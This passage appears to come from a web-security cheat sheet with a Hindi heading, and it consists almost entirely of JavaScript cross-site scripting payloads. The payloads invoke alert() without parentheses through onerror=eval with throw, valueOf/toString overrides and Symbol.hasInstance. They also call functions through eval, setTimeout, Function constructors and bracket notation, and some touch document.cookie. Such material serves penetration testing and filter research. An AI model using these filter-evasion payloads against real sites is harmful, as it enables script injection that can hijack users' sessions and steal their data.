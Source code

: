 ````javascript
// Because the objet is passed as "this" and alert() needs "window" to be the value of "this", "window" methods are used
valueOf=alert;window+''
toString=alert;window+''


// Error handler
window.onerror=eval;throw"=alert\x281\x29";
onerror=eval;throw"=alert\x281\x29";
<img src=x onerror="window.onerror=eval;throw'=alert\x281\x29'">
{onerror=eval}throw"=alert(1)" //No ";"
onerror=alert //No ";" using new line
throw 1337
// Error handler + Special unicode separators
eval("onerror=\u2028alert\u2029throw 1337");
// Error handler + Comma separator
// The comma separator goes through the list and returns only the last element
var a = (1,2,3,4,5,6) // a = 6
throw onerror=alert,1337 // this is throw 1337, after setting the onerror event to alert
throw onerror=alert,1,1,1,1,1,1337
// optional exception variables inside a catch clause.
try{throw onerror=alert}catch{throw 1}


// Has instance symbol
'alert\x281\x29'instanceof{[Symbol['hasInstance']]:eval}
'alert\x281\x29'instanceof{[Symbol.hasInstance]:eval}
// The “has instance” symbol allows you to customise the behaviour of the instanceof operator, if you set this symbol it will pass the left operand to the function defined by the symbol.
````
* [https://github.com/RenwaX23/XSS-Payloads/blob/master/Without-Parentheses.md](https://github.com/RenwaX23/XSS-Payloads/blob/master/Without-Parentheses.md)
* [https://portswigger.net/research/javascript-without-parentheses-using-dommatrix](https://portswigger.net/research/javascript-without-parentheses-using-dommatrix)

**मनमाने फ़ंक्शन (अलर्ट) कॉल**
````javascript
//Eval like functions
eval('ale'+'rt(1)')
setTimeout('ale'+'rt(2)');
setInterval('ale'+'rt(10)');
Function('ale'+'rt(10)')``;
[].constructor.constructor("alert(document.domain)")``
[]["constructor"]["constructor"]`$${alert()}```
import('data:text/javascript,alert(1)')

//General function executions
`` //Can be use as parenthesis
alert`document.cookie`
alert(document['cookie'])
with(document)alert(cookie)
(alert)(1)
(alert(1))in"."
a=alert,a(1)
[1].find(alert)
window['alert'](0)
parent['alert'](1)
self['alert'](2)
top['alert'](3)
this['alert'](4)
frames['alert'](5)
content['alert'](6)
[7].map(alert)
[8].find(alert)
````